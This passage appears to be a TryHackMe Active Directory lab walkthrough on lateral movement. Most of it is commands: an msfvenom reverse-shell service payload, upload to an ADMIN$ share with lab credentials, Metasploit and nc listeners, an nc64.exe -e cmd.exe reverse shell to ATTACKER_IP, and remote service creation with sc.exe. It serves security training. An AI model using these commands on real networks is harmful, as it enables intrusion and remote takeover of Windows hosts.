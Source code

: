 ```bash
$ msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKER_IP LPORT=4444 -o radu-service.exe
```

* Use the credentials above to upload the payload to the `ADMIN$` share of the `THMIIS` using `smbclient`:

```bash
smbclient -c 'put radu-service.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' EZpass4ever
```

* After uploading it, open a terminal and set up a listener using `msfconsole`:

```bash
$ msfconsole
> use exploit/multi/handler
> set LHOST ATTACKER:IP
> set LPORT 4444
> set payload windows/shell/reverse_tcp
> exploit
```

* This `metasploit` listener won't receive a shell until we trigger the `msfvenom` payload `radu-service.exe`
* Open a new terminal window and set up a `nc` listener to prepare for receiving a reverse shell:

```bash
$ nc -lvp 4443
```

* Go back to the SSH connection and spawn a reverse shell using `t1_leonard.summers` access token:

```bash
$ runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4443"
```

* Finally, in this connection received on port 4443 create a new service remotely using `sc` (rename `radu-service` to something else):
* This triggers the `radu-service.exe` payload and you will have a shell as `t1_leonard.summers`

```powershell
> sc.exe \\thmiis.za.tryhackme.com create radu-service binPath= "%windir%\radu-service.exe" start= auto
> sc.exe \\thmiis.za.tryhackme.com start radu-service
```

* After successfully running the commands above, you should have a connection as `t1_leonard.summers` in your `metasploit` listener. Use it to access the first flag on `C:\Users\t1_leonard.summers\Desktop\Flag.exe`

### Task 4

* Connect to the SSH using the supplied AD credentials:

```bash
ssh za\\AD_USERNAME@thmjmp2.za.tryhackme.com
```
